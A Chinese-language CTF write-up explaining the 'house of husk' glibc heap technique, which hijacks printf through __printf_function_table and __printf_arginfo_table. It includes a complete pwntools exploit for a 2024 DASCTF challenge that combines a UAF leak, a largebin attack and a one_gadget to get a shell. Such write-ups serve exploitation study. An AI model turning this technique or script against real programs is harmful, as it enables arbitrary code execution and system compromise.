 堆题使用_exit()退出程序，且存在printf并且使用了格式化字符，只能任意写堆地址。使用house of husk，通过一次任意地址写（任何非零值都可以），一次任意地址写可控地址，即可任意执行。

printf函数的一个功能是，可以允许用户自定义格式化字符所使用的函数。
如果用户使用__register_printf_specifier函数自定义某格式化字符对应的函数，就会在__printf_arginfo_table处calloc一块内存用于存放用户自定义的格式化字符函数表，表中每一个函数指针对应每一个ascii字符（格式化字符）所使用的自定义函数。
同时将__printf_function_table置为__printf_arginfo_table + UCHAR_MAX + 1

在调用printf时，会检测__printf_function_table是否为零。
若非零则代表用户自定义了格式化字符函数。
此时，程序会转而调用__printf_arginfo_table对应偏移处的函数。

于是利用思路就很明确了。
一次任意写将__printf_function_table置为任意非零值。
一次任意写将__printf_arginfo_table写为可控地址。
可控地址对应偏移处写上目标执行地址（其实正常堆题把chunk填满就行了）。
随后调用带格式化参数的printf，即可任意地址执行。

例题：[DASCTF X HDCTF 2024 最喜欢的一集](https://github.com/Seg-Tree/seg-tree.github.io/blob/main/pwn/DASCTF%20X%20HDCTF%202024%20%E6%9C%80%E5%96%9C%E6%AC%A2%E7%9A%84%E4%B8%80%E9%9B%86%EF%BC%9Ahouse%20of%20husk/pwn_4.7z)

远程环境：glibc-2.31-0ubuntu9.15_amd64
exp环境：glibc-2.31-0ubuntu9.16_amd64

一个uaf，一次edit，一次show，限制chunk 0x500~0x540，一次backdoor任意写一字符。
放进unsortedbin两个chunk，show uaf_chunk拿libc和heap。
largebin attack写在__printf_arginfo_table上。
backdoor写在__printf_function_table上。
输入非法字符退出，调用printf，getshell。

exp：
```python
from pwn import*
p = process("./pwn")
libc = ELF("./libc-2.31.so")
def add(siz,cot):
    p.sendlineafter("choice: \n","1")
    p.sendlineafter("name: ","Seg_Tree")
    p.sendlineafter("desciption: ",str(siz))
    p.sendlineafter("desciption: ",cot)

def fre(idx):
    p.sendlineafter("choice: \n","2")
    p.sendlineafter("people: ",str(idx))

def edi(idx,cot):
    p.sendlineafter("choice: \n","3")
    p.sendlineafter("people: ",str(idx))
    p.sendlineafter("people: ","Seg_Tree")
    p.sendlineafter("desciption: ",cot)

def sho(idx):
    p.sendlineafter("choice: \n","4")
    p.sendlineafter("people: ",str(idx))

def backdoor(addr,char):
    p.sendlineafter("choice: \n","255")
    p.sendlineafter("IU?\n","y")
    p.sendafter("reward!\n",addr)
    p.sendline(char)

add(0x520,"AAAAAAAA")           #0
add(0x510,"BBBBBBBB")           #1
add(0x500,"CCCCCCCC")           #2
add(0x510,"DDDDDDDD")           #3
fre(0)
fre(2)
sho(0)
unsortedbin = u64(p.recv(8))
libc_base = unsortedbin - 0x1Ecbe0
largebin = libc_base + 0x1ed010
print(hex(libc_base))
heap2 = u64(p.recv(8))
heap0 = heap2 - 0xa50
print(hex(heap0))
system = libc_base + libc.symbols["system"]
__printf_function_table = libc_base + 0x1F1318
__printf_arginfo_table = libc_base + 0x1ED7B0
ogg = libc_base + 0xe3afe
ogg = libc_base + 0xe3b01
print(hex(__printf_arginfo_table))
backdoor(p64(__printf_function_table),'a')

fake_table = p64(ogg)*0x80
payload = p64(largebin) + p64(largebin) + p64(heap0) + p64(__printf_arginfo_table - 0x20)

add(0x500,fake_table)           #4/former 2
fre(2)
edi(0,payload)
add(0x530,"put the unsorted chunk into large bin")          ##4
# fre(4)
# gdb.attach(p,"b*$rebase(0x1d98)")
p.sendlineafter("choice: \n","H4cked_6y_Seg_Tree")
p.interactive()
```
做的时候以为全程总共只能分配6个chunk，free之后也没法回收，所以苦恼了好一会风水，最大程度精简了exp使用的chunk。然后才发现压根没这限制（（

